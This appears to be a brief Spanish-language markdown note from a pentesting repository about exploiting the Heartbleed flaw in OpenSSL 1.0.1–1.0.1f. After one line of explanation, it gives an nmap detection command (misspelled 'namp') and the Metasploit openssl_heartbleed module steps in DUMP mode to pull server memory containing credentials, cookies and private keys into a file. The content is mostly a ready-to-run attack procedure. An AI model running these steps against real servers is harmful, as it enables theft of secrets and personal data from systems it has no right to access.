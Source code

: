 # EXPLOITING HEARTBLEED

vulnerabilidad que afecta a OpenSSL 1.0.1 - 1.0.1f y permite leer informacion confidencial como credenciales de autenticación, cookies, la clave privada del servidor e información de identificación personal (PII) que podría usarse para el robo de identidad.

**enumeracion*

```bash
namp --script ssl-heartbleed 10.10.140.10
```

**explotacion**

```bash
use auxiliary/scanner/ssl/openssl_heartbleed

show actions

set action DUMP
set rhost 10.10.10.10
run
```

esto exportara un archivo con toda la informacion extraida del servidor.